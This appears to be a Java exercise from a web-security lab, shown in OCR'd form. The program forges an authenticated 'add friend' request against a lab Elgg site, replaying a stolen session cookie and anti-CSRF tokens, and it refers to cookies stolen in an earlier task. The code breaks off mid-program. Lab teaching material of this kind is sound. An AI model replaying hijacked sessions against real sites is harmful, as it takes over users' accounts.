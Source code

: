     public class HTTPSimpleForge {
        public static void main(String[] args) throws IOException {
            try {
                int responseCode;
                InputStream responseIn=null;
                String requestDetails = "&__elgg_ts=1523234680&__elgg_token=c350392c025b08bd57749463f68ef2e2";
                // URL to be forged.
                URL url = new URL("http://www.xsslabelgg.com/action/friends/add?friend=42"+requestDetails);
                // URLConnection instance is created to further parameterize a
                // resource request past what the state members of URL instance
                // can represent.
                HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
                if (urlConn instanceof HttpURLConnection) {
                    urlConn.setConnectTimeout(60000);
                    urlConn.setReadTimeout(90000);
                }
                // addRequestProperty method is used to add HTTP Header Information.
                // Here we add User-Agent HTTP header to the forged HTTP packet.
                // Add other necessary HTTP Headers yourself. Cookies should be stolen
                // using the method in task3.
                urlConn.addRequestProperty("Host","www.xsslabelgg.com");
                urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
                urlConn.addRequestProperty("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
                urlConn.addRequestProperty("Accept-Language","zh-CN,en-US;q=0.7,en;q=0.3");
                urlConn.addRequestProperty("Accept-Encoding","gzip, deflate");
                urlConn.addRequestProperty("Referer","http://www.xsslabelgg.com/profile/alice");
                urlConn.addRequestProperty("Cookie","Elgg=hcr0r766effr7ot51eko3cv2s7");
                urlConn.addRequestProperty("Connection","keep-alive");
                urlConn.addRequestProperty("Upgrade-Insecure-Requests","1");
                //HTTP Post Data which includes the information to be sent to the server.
                String data = "";
                // DoOutput flag of URL Connection should be set to true
                // to send HTTP POST message.
                urlConn.setDoOutput(true);
                // OutputStreamWriter is used to write the HTTP POST data
                // to the url connection.
                OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
                wr.write(data);
                wr.flush();
                // HttpURLConnection a subclass of URLConnection is returned by
                // url.openConnection() since the url is an http request.
                if (urlConn instanceof HttpURLConnection) {
                    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
                    // Contacts the web server and gets the status code from
                    // HTTP Response message.
                    responseCode = httpConn.getResponseCode();
                    System.out.println("Response Code = " + responseCode);
                    // HTTP status code HTTP_OK means the response was
                    // received sucessfully.
                    if (responseCode == HttpURLConnection.HTTP_OK)
                        // Get the input stream from url connection object.
                        responseIn = urlConn.getInputStream();
                    // Create an instance for BufferedReader
                    // to read the response line by line.
                    BufferedReader buf_inp = new BufferedReader(
                            new InputStreamReader(responseIn));
                    String inputLine;
                    while((inputLine = buf_inp.readLine())!=null) {
                        System.out.println(inputLine);
                    }
                }
            } catch (MalformedURLException e) {
                e.printStackTrace();